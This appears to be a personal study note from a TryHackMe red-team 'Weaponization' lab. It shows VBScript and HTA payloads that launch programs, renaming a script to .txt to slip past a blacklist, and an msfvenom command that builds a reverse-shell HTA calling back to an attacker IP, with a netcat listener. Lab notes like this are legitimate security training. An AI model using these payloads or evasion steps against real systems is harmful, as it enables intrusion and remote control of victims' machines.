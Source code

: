 # Weaponization

Weaponizatiion is when red teamers use their own crafted tools to exploit a target

## Windows Scripting Host (WSH)

Windows scripting host is a built-in Windows administration tool that runs batch files to automate and manage tasks within the operating system.
It uses VBScript

### Showing a message box

- Windows message box
  ```
  Dim message
  message = "Hello"
  MsgBox message
  ```
- run it in cmd: `wscript hello.vbs`

### Use it to run exe files

- Run an exe file with VBScript
  ```
  Set shell = WScript.CreateObject("Wscript.Shell")
  shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
  ```
- Execute it with wscript or cscript in cmd: `wscript c:\Users\thm\Desktop\calc.vbs` or `cscript.exe c:\Users\thm\Desktop\calc.vbs`
- In case of blacklist, possible to rename in txt and still run it: `wscript /e:VBScript c:\Users\thm\Desktop\payload.txt` 

## HTML Application (HTA)

### Using and `ActiveXObject to execute cmd.exe

```
<html>
<body>
<script>
        var c= 'cmd.exe'
        new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```

- serve the payload `python3 -m http.server 8000`
- Visit the page from the target machine `http://IP-ATTACK-MACHINE:8000/payload.hta` and run it

### Reverse shell

- Create a reverse shell with msfvenom `msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP-ATTACK-MACHINE LPORT=443 -f hta-psh -o thm.hta`
- Launch a listener: `nc -lvp 443`
- Possible to generate and serve HTA with Metasploit framework 

## Resources

- [TryHackMe - Weaponization](https://tryhackme.com/room/weaponization)
- [Red Teaming Toolkit - infosecn1nja](https://github.com/infosecn1nja/Red-Teaming-Toolkit#Payload%20Development)
